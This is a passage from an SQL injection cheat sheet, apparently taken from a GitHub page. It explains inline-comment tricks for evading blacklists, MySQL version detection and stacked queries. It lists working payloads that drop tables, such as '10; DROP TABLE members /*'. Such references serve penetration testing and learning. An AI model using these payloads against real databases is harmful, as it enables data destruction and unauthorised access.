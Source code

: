 #### Inline Comments

**Comments out rest of the query by not closing them** or you can use for **bypassing blacklisting**, removing spaces, obfuscating and determining database versions.

- `/*Comment Here*/` (SM)
    - `DROP/*comment*/sampletable`
    - `DR/**/OP/*bypass blacklisting*/sampletable`
    - `SELECT/*avoid-spaces*/password/**/FROM/**/Members`
- `/*! MYSQL Special SQL *`/ (M)

This is a special comment syntax for MySQL. It's perfect for detecting MySQL version. If you put a code into this comments it's going to execute in MySQL only. Also you can use this to execute some code only if the server is higher than supplied version.

`SELECT /*!**32302** 1/0, */ 1 FROM tablename`

##### Classical Inline Comment SQL Injection Attack Samples

- ID: `10; DROP TABLE members /*`

Simply get rid of other stuff at the end the of query. Same as `10; DROP TABLE members --`

- `SELECT /*!**32302** 1/0, */ 1 FROM tablename`

Will throw an **divison by 0 error **if MySQL version is higher than**3.23.02**

##### MySQL Version Detection Sample Attacks

- ID: `/*!``**32302** 10*/`
- ID: `10`

You will get the **same response** if MySQL version is higher than **3.23.02**

- `SELECT /*!**32302** 1/0, */ 1 FROM tablename`

Will throw a **division by 0 error **if MySQL version is higher than**3.23.02**

### Stacking Queries

**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

- `;` (S)

`SELECT * FROM members; DROP members--`
Ends a query and starts a new one.

#### Language / Database Stacked Query Support Table

**green:** supported, **dark gray:** not supported, **light gray: **unknown
![SQL-Cheat-Sheet.jpg](../_resources/0eacaa29b94c8759ec7800f5cf9f213a.png)
**About MySQL and PHP;**
To clarify some issues;
